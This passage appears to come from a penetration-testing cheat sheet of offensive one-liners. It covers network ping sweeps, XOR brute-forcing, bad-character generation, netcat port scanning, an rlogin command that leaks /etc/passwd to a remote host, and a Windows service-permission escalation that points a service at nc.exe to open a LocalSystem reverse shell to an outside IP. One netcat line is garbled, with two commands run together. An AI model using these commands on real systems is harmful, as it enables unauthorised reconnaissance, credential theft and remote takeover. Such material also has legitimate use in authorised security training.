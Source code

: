 ```bash
rlogin -l "$(cat /etc/passwd)" -p port host
```

### Bash Ping Sweeper <a id="bash-ping-sweeper"></a>

```bash
#!/bin/bash
for lastOctet in {1..254}; do
     ping -c 1 10.0.0.$lastOctet | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done
```

### Brute-forcing XOR'ed string with 1 byte key in Python <a id="brute-forcing-xored-string-with-1-byte-key-in-python"></a>

```python
encrypted = "encrypted-string-here"
for i in range(0,255):
    print("".join([chr(ord(e) ^ i) for e in encrypted]))
```

### Generating Bad Character Strings <a id="generating-bad-character-strings"></a>

```python
# Python
'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])
```

```bash
# Bash
for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
```

### Converting Python to Windows Executable \(.py -&gt; .exe\) <a id="converting-python-to-windows-executable-py-greater-than-exe"></a>

```bash
python pyinstaller.py --onefile convert-to-exe.py
```

### Port Scanning with NetCat <a id="port-scanning-with-netcat"></a>

```bash
nc -nvv -w 1 -z host 1000-2000nc -nv -u -z -w 1 host 160-162
```

### Exploiting Vulnerable Windows Services: Weak Service Permissions <a id="exploiting-vulnerable-windows-services-weak-service-permissions"></a>

```bash
# Look for SERVICE_ALL_ACCESS in the output
accesschk.exe /accepteula -uwcqv "Authenticated Users" *​

sc config [service_name] binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""
sc qc [service_name] (to verify!)
sc start [service_name]
```
